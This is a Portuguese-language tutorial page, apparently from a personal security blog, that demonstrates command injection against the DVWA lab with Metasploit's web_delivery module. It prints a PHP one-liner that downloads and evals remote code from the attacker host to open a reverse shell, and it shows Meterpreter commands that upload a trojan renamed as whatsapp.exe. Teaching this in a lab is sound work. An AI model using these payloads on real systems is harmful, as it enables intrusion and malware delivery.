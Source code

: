 ```yaml
---
layout: default
title: Command-Injection com Metasploit
permalink: /artigos/07.md/
---
```

  
  
<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/07.md">Anterior</a>   
</p>

## Command-Injection com Metasploit

O ataque **Command-Injection** permite a execução de comandos remotamente no sistema operacional a partir de uma aplicação que não faz a validação dos dados de entrada. Quando o ataque é bem sucedido, o comando é executado com o mesmo nível de privilégios da aplicação, ou seja, se a aplicação é executada no sistema operacional com privilégios administrativos, o comando também será executado com esse nível de acesso. 

## Executando o Command-Injection

No exemplo, eu continuo utilizando a aplicação vulnerável [DVWA](http://www.dvwa.co.uk) e a máquina Kali virtualizada com VirtualBox. No metasploit, o módulo _exploit/multi/script/web_delivery_ oferece o exploit do [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md). Em um ataque de **command-injection**, o [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md) é utilizado para abrir o backdoor com o sistema atacado.

A aplicação [DVWA](http://www.dvwa.co.uk) é construida em PHP e essa será nossa opção na escolha do _targets_ 

![targets](https://carineconstantino.github.io/cybersecurity/artigos/imagens/targets.png)

O módulo do **shell-reverso** é para PHP e a porta local de conexão é padrão 4444. Quando o **command-injection** for executado, a máquina Kali receberá conexões nessa porta e poderá enviar um outro payload, por exemplo, um arquivo de vírus para infectar a máquina. 

![web_delivery_module](https://carineconstantino.github.io/cybersecurity/artigos/imagens/web_delivery_module.png)

Ao executar o módulo, o payload que será enviado através do command-injection será criado. No exemplo, o seguinte payload foi criado: 

```php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.26:8080/0piSzsUEIk5'));"```

Na aplicação DVWA, adicionamos a linha junto com uma ação legítima disponível no site. 

![dvwa_command_injection](https://carineconstantino.github.io/cybersecurity/artigos/imagens/dvwa_command_injection.png)

A máquina Kali recebe a conexão pois a aplicação não validou a entrada do comando e passou a execução para o servidor, permitindo abrir o backdoor na porta 4444

![conexao_reversa](https://carineconstantino.github.io/cybersecurity/artigos/imagens/conexao_reversa.png)

O comando _sessions_ confirma a sessão aberta do **shell-reverso**

![sessions](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions.png)

## Meterpreter

A manipulação da máquina remota é feita com o excelente [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) através do comando ```sessions -i 1```

![sessions_1](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions_1.png)

Dentro do [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) diversos comandos estão disponíveis para exploração da máquina da vítima. 
No exemplo abaixo, são executados os comandos ```getwd```, ```ls -l```, ```upload /root/trojan.exe whatsapp.exe```

![meterpreter_attack](https://carineconstantino.github.io/cybersecurity/artigos/imagens/meterpreter_attack.png)

O comando ```upload``` permite enviar arquivos para a máquina atacada e a partir desse ponto, o céu é o limite para o atacante. 

